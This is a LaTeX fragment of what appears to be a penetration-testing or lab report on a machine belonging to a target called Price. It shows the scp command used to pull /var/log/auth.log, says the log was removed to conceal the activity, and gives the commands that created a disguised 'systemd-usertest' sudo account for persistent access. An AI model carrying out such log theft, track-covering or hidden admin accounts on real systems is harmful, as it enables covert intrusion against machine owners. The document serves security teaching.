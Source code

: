 \documentclass[12pt]{report}
\newcommand{\term}[1]{\colorbox{light-gray}{\texttt{#1}}}
\begin{document}
I also used \texttt{scp} to pull a copy of the \texttt{/var/log/auth.log} from Price's machine -- it is attached, in a reduced form, in Appendix~\ref{app:files:authlog}. To do this, I used the command:\\
\term{scp -P 442 phillip@192.168.254.132:/var/log/auth.log auth.log}

I have also provided a screenshot of this step in Appendix~\ref{app:screenshots:3}.

In this log file, I can see a lot of evidence of failed attempts to log into Price's SSH account on the machine before the correct password is found and authentication is successful -- I removed this file to conceal the investigation from Price.


\section{Setting up persistent access to the machine}
In order to maintain persistent access to Price's machine I decided to create a new user with the command:\\
\term{sudo adduser systemd-usertest}

I used the username \textit{'systemd-usertest'} in an effort to disguise my presence from Price. As systemd provides a myriad of services, Price would hopefully attribute this new user to a \texttt{systemd} update.

After creating the \textit{'systemd-usertest'} user, I made it a member of the \texttt{sudo} group with the command:\\
\term{sudo usermod -aG sudo systemd-usertest}

With this new account, I was able and will continue to be able to access Price's machine on demand for the course of the investigation.

The screenshot in Appendix~\ref{app:screenshots:4} shows me accessing this new account over SSH from my attack machine.
\end{document}
